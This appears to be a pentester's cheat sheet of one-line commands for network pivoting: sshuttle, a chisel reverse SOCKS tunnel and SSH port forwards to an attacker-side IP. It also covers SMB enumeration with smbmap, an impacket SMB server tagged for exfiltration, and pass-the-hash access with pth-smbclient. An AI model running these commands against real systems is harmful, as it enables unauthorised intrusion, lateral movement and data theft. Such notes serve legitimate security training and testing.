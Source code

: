 ## pivot pivoting 
- `sshuttle -vr <via-ssh-server> <Remote-Net-To-Route>`
- `sshuttle -vr username@target-ip 10.1.1.0/24`

- `chisel server --port 8000 --reverse`
- `.\chisel client 192.168.45.196:8000 R:socks`

- `ssh root@192.168.45.196 -L 80:127.0.0.1:80`
- `ssh -R 0.0.0.0:8000:192.168.196.1:80 root@192.168.45.196`
---

# smbmap
- service: smb
- tactics: discovery

## guest login
- `smbmap -u whateverusername -H target-ip`

## anonymous login
- `smbmap -H target-ip`

---

# smbserver.py
- service: smb
- tactics: exfiltration
- suites: impacket

## fake smb server for uploading and downloading files
- `python3 /opt/impacket/examples/smbserver.py -smb2support files $(pwd)`

---

# pth-smbclient
- service: smb
- service: ntlm
- tactics: lateral_movement
- suites: pth-toolkit

## connect to target-share and auth via ntlm-hash
- `pth-smbclient --user=username --pw-nt-hash -m smb3 \\\\target-ip\\target-share ntlm-hash`

---

# pth-winexe
- service: smb
- service: ntlm
- tactics: lateral_movement
- suites: pth-toolkit
